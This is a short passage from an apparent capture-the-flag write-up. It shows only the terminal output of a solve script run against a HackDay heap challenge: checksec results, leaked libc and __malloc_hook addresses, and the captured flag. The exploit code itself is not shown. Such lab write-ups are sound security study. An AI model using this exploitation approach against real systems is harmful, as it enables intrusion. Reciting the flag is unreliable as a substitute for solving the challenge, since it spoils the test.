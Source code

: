 Result:

```
$ python3 solve.py
[*] '/home/elf/Downloads/chall_patched'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
    RUNPATH:  b'.'
[*] '/home/elf/Downloads/libc.so'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[+] Opening connection to sie2op7ohko.hackday.fr on port 1337: Done
[*] slots @ 0x565433e812c0
[*] libc @ 0x7f02d89fd000
[*] __malloc_hook @ 0x7f02d8be0b90
[+] HACKDAY{s4f3_l1nk1ng_c4nt_r3515t_t0_l34k5}
[*] Closed connection to sie2op7ohko.hackday.fr port 1337
```

Flag: `HACKDAY{s4f3_l1nk1ng_c4nt_r3515t_t0_l34k5}`